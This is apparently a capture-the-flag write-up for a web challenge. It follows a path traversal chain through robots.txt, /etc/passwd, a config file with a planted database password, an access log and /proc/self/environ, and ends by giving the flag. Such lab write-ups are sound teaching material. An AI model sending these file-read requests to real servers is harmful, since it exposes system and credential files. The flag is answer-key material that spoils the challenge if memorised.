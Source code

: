 # The Robot's Trail
You enter a virtual maze, a labyrinth of shifting corridors and endless paths. A guardian robot patrols the floor, leaving a trail behind as it moves. Follow the path it carves, trace its movements carefully, and uncover the key it leads you to. Only by following the robot’s trail can you reach the door to the next floor.

## How I solved
First inspect or look at the source code
```
<div class="hidden">
        <p>Start by checking what this site tells search engine bots in <a href="/robots.txt" style="color: #00bcd4;">robots.txt</a></p>
</div>
```
so we get a hint to go to the robots.txt endpoint on going there u get
```
User-agent: *

# We value our digital privacy and have restricted access to certain system-level configurations.
Disallow: /file?path=../../etc/passwd
Disallow: /file?path=../../../etc/passwd

# Hint for curious explorers: 
# Sometimes system files like /etc/passwd can reveal interesting information...
# But remember to respect privacy boundaries!
```
so u go to the /file?path=../../etc/passwd endpoint and it says
```
"root:x:0:0:root:/root:/bin/bash\n"
            "daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\n"
            "bin:x:2:2:bin:/bin:/usr/sbin/nologin\n"
            "sys:x:3:3:sys:/dev:/usr/sbin/nologin\n"
            "nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\n"
            "webadmin:x:1000:1000:Check the web server config at /var/www/html/config.php:/home/webadmin:/bin/bash\n"
```
so u try the /file?path=/var/www/html/config.php:/home/webadmin:/bin/bash and u get
```
"<?php\n"
            "// Database configuration\n"
            "$db_host = 'localhost';\n"
            "$db_user = 'admin';\n"
            "$db_pass = 's3cr3t_p@ssw0rd';\n"
            "// Debug info: Check the access logs for unusual activity\n"
            "// Log location: /var/log/apache2/access.log\n"
            "?>"
```
so u try the /file?path=/var/log/apache2/access.log and u get
```
"127.0.0.1 - - [01/Jan/2023:10:30:45 +0000] \"GET / HTTP/1.1\" 200 1234 \"-\" \"Mozilla/5.0\"\n"
            "192.168.1.100 - - [01/Jan/2023:10:31:22 +0000] \"GET /file?path=../../etc/passwd HTTP/1.1\" 200 567 \"-\" \"Python-urllib\"\n"
            "10.0.0.50 - - [01/Jan/2023:10:32:15 +0000] \"GET /admin HTTP/1.1\" 404 289 \"-\" \"curl\"\n"
            "# Interesting environment variables might be found at /proc/self/environ\n"
            "203.0.113.5 - - [01/Jan/2023:10:33:01 +0000] \"POST /login HTTP/1.1\" 302 - \"-\" \"Mozilla/5.0\"\n"
```
and then u go to /file?path=/proc/self/environ and u get
```
"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\n"
            "HOSTNAME=web-server-01\n"
            "USER=www-data\n"
            "HOME=/var/www\n"
            "SECRET_LOCATION=/home/ctf/.secret\n"
            "PWD=/var/www/html\n"
            "LANG=C.UTF-8\n"
            "SHLVL=1\n"
```
and then u go to /file?path=/home/ctf/.secret and u get
```
"Directory listing for /home/ctf/.secret:\n"
            "total 12\n"
            "drwx------ 2 ctf ctf 4096 Jan  1 10:00 .\n"
            "drwxr-xr-x 5 ctf ctf 4096 Jan  1 09:55 ..\n"
            "-r-------- 1 ctf ctf   48 Jan  1 10:00 flag.txt\n"
            "\n"

and then u go to /home/ctf/.secret/flag.txt and u get the flag!
```
Flag: `citadel{p4th_tr4v3rs4l_m4st3ry_4ch13v3d}`
